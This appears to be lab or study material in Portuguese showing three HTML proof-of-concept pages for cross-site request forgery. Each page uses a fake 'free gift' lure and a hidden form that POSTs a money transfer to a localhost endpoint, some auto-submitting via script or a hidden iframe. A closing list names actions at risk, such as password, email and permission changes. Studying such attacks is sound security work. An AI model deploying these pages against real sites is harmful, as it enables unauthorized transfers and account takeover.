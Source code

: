 <!DOCTYPE html>
<html>
  <body>
    <h1>Você ganhou um brinde grátis! 😈</h1>

    <form id="csrf-form" action="http://localhost:8080/transfer" method="POST">
      <input type="hidden" name="amount" value="1000">
    </form>

    <script>
      document.getElementById('csrf-form').submit();
    </script>
  </body>
</html>

<!DOCTYPE html>
<html>
  <head>
    <title>CSRF Attack</title>
  </head>
  <body>
    <h1>Você ganhou um brinde grátis!</h1>

    <form action="http://localhost:8080/transfer" method="POST">
      <input type="hidden" name="amount" value="1000">
      <input type="submit" value="Clique aqui para ganhar!">
    </form>
  </body>
</html>

<!DOCTYPE html>
<html>
  <body>
    <h1>Você ganhou um brinde grátis! 😈</h1>

    <iframe name="csrf-frame" style="display:none;"></iframe>
	<form action="http://localhost:8080/transfer" method="POST" target="csrf-frame">
	<input type="hidden" name="amount" value="1000">
	</form>
	<script>
	document.forms[0].submit();
	</script>

  </body>
</html>

Onde essa vulnerabilidade pode ser explorada:
Pode ser explorada sempre que a aplicação realiza ações importantes via requisição HTTP(Post) que usam cookies de sessão automática, não validam token CSRD, não exigem interação direta ou validação do usuário (como senha ou captcha)
- Transferência de dinheiro
- Alteração de senha
- Exclusão de conta de usuário
- Alteração de e-mail ou endereço de entrega
- Alteração ou criação de configuração de segurança
- Alteração de permissões de outros usuários